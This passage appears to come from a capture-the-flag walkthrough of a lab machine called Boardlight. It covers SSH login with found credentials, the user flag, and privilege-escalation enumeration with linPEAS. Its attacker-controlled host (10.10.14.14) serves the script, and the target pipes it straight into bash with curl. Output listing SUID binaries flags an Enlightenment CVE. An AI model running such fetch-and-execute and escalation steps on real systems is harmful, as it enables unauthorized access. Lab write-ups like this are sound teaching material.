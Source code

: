 Let's try to ssh via this user and the password found before.

Credentials work, and the file `user.txt` is found on the home directory and has the flag `82c41c30d39588dfb590a8880a3a8c3b`.

--------

## Task 10

What is the name of the desktop environment installed on Boardlight?

In order to scan the whole system for any vulnerabilities and possibilities for privilege escalation I will use `linPEAS`.

First download it to the local machine.

`wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`

Start a server.

```sh
python3 -m http.server
```

On the target, where I'm logged in as `larissa` I download the file using `curl`.

```sh
curl http://10.10.14.14:8000/linpeas.sh | bash
```

This executes `linpeas` and I see the files with "interesting" permissions, among them is `enlightenment`, which is the answer to this.

```sh
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 15K Apr  8  2024 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 467K Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 55K Apr  9  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 67K Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 84K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Apr  9  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 87K Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 67K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 15K Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
```
